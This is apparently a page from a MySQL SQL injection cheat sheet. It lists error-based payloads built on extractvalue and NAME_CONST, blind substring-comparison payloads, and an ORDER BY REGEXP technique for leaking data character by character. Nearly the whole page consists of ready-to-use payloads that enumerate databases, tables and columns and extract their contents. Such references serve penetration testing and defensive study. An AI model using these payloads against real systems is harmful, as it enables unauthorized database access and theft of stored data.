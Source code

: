 
### MYSQL Error Based - Extractvalue function

Works with `MySQL >= 5.1`

```sql
?id=1 AND extractvalue(rand(),concat(CHAR(126),version(),CHAR(126)))--
?id=1 AND extractvalue(rand(),concat(0x3a,(SELECT concat(CHAR(126),schema_name,CHAR(126)) FROM information_schema.schemata LIMIT data_offset,1)))--
?id=1 AND extractvalue(rand(),concat(0x3a,(SELECT concat(CHAR(126),TABLE_NAME,CHAR(126)) FROM information_schema.TABLES WHERE table_schema=data_column LIMIT data_offset,1)))--
?id=1 AND extractvalue(rand(),concat(0x3a,(SELECT concat(CHAR(126),column_name,CHAR(126)) FROM information_schema.columns WHERE TABLE_NAME=data_table LIMIT data_offset,1)))--
?id=1 AND extractvalue(rand(),concat(0x3a,(SELECT concat(CHAR(126),data_info,CHAR(126)) FROM data_table.data_column LIMIT data_offset,1)))--
```


### MYSQL Error Based - NAME_CONST function (only for constants)

Works with `MySQL >= 5.0`

```sql
?id=1 AND (SELECT * FROM (SELECT NAME_CONST(version(),1),NAME_CONST(version(),1)) as x)--
?id=1 AND (SELECT * FROM (SELECT NAME_CONST(user(),1),NAME_CONST(user(),1)) as x)--
?id=1 AND (SELECT * FROM (SELECT NAME_CONST(database(),1),NAME_CONST(database(),1)) as x)--
```


## MYSQL Blind

### MYSQL Blind with substring equivalent

```sql
?id=1 and substring(version(),1,1)=5
?id=1 and right(left(version(),1),1)=5
?id=1 and left(version(),1)=4
?id=1 and ascii(lower(substr(Version(),1,1)))=51
?id=1 and (select mid(version(),1,1)=4)
?id=1 AND SELECT SUBSTR(table_name,1,1) FROM information_schema.tables > 'A'
?id=1 AND SELECT SUBSTR(column_name,1,1) FROM information_schema.columns > 'A'
```

### MySQL Blind SQL Injection in ORDER BY clause using a binary query and REGEXP

This query basically orders by one column or the other, depending on whether the EXISTS() returns a 1 or not.
For the EXISTS() function to return a 1, the REGEXP query needs to match up, this means you can bruteforce blind values character by character and leak data from the database without direct output.

```
[...] ORDER BY (SELECT (CASE WHEN EXISTS(SELECT [COLUMN] FROM [TABLE] WHERE [COLUMN] REGEXP "^[BRUTEFORCE CHAR BY CHAR].*" AND [FURTHER OPTIONS / CONDITIONS]) THEN [ONE COLUMN TO ORDER BY] ELSE [ANOTHER COLUMN TO ORDER BY] END)); -- -
```
